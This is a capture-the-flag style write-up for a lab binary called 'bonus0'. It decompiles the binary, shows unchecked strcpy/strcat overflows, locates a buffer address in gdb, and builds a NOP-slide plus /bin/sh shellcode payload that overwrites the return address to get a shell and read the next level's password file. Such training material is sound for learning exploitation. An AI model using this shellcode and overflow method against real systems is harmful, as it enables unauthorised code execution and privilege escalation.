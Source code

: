 ### Download binary
``scp -P4242 bonus0@192.168.31.170:/home/user/bonus0/bonus0 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

**Main function :**
char	buffer[54];
Call : pp(buffer);
Then : puts(buffer);

**PP function :**
char	first_line [20];
char	second_line [20];
Call : p function x2 (first line and second line)
Call : strcpy, without checking the size !
Try to replace '\0' by space
Call : strcat without checking the size !

**P function :**
Replace '\n' by '\0', and if there's no '\n' ?

**Tests :**
If we respect the size of the inputs (20)
``./bonus0``
> -

``AAAAAAAAAAAAAAAAAAA``
> -

``BBBBBBBBBBBBBBBBBBB``
>AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBB

If we exceed the size of the inputs by 1 (21), we override the '\0' of arg1, so we end up with arg1 + arg2 + memory residue + arg2 + memory residue
``./bonus0``
> -

``AAAAAAAAAAAAAAAAAAAA``
> -

``BBBBBBBBBBBBBBBBBBBB``
>AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���


### Finding the global buffer address

**We analyze the call to read :**
read([**file descriptor**], [**buffer pointer**], [**size max to read**])

``(gdb) disas p``
>[...]
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)		// size 0x1000 = 4096
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax		// calculates the address of the buffer and stores it in the %eax register
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)			// then moves this address onto the stack
   0x080484da <+38>:	movl   $0x0,(%esp)				// file descriptor 0
   0x080484e1 <+45>:	call   0x8048380 <read@plt>

``(gdb) b *0x080484d6``
>Breakpoint 1 at 0x080484d6

``(gdb) run``
>Starting program: /home/user/bonus0/bonus0
 -
Breakpoint 1, 0x080484d6 in p ()

``(gdb) i r``
>eax            0xbfffe670	-1073748368

**0xbfffe670 -> global buffer address**

----

### Building the payload

The same shellcode as level 2 is used : https://shell-storm.org/shellcode/files/shellcode-811.html
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80


**1st input :**
NOP * 1000 (slide for shellcode) + SHELLCODE
python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"

**2nd input**
Analyzing the behavior of memory :
input1 -> **20 bytes**
input2 -> **20 bytes**
Both are concatenated into a buffer of **54 bytes**
20 + 20 + 1 ('/0' added by strcat) = **41 bytes filled out of 54.**
We add **9 filling chars to reach 50**.
We **add the address we want to point to** (somewhere in the middle of the NOPs that serve as a slide to our shellcode).
-> Address in the middle of the NOPs (buffer start 0xbfffe670 -> 500 bytes further): **0xbfffe864**
We fill the rest of our buffer, with **7 filling characters, to correctly override the return address**

----

#### Getting the flag

``(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; python -c "print '\x90' * 9 + '\x64\xe8\xff\xbf' + '\x90' * 7"; cat) | ./bonus0``
> -
 -
�����������������������������d������������� ���������d�������������

``whoami``
>bonus1

``cat /home/user/bonus1/.pass``
>cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
